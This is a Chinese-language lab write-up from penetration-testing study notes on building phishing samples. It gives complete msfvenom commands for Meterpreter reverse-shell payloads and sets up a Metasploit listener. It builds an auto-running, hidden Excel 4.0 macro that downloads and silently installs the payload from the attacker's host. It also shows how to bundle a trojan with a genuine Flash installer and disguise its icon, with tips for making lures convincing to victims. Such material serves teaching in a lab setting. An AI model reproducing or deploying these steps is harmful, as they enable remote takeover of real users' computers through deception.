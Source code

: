 ```yaml
---
title: 实验五--钓鱼技术
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 钓鱼
  - 木马
published: 2023-12-05
permalink: /archives/2wqhr1z8/
---
```

## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](./images/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](./images/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](./images/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](./images/202407142110166.png)

然后插入宏表

![image-20240714205003681](./images/202407142110167.png)

![image-20240714205014322](./images/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](./images/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](./images/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](./images/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](./images/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](./images/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](./images/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](./images/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](./images/202407142110176.png)

![image-20240714205254262](./images/202407142110177.png)

![image-20240714205300874](./images/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](./images/202407142110179.png)

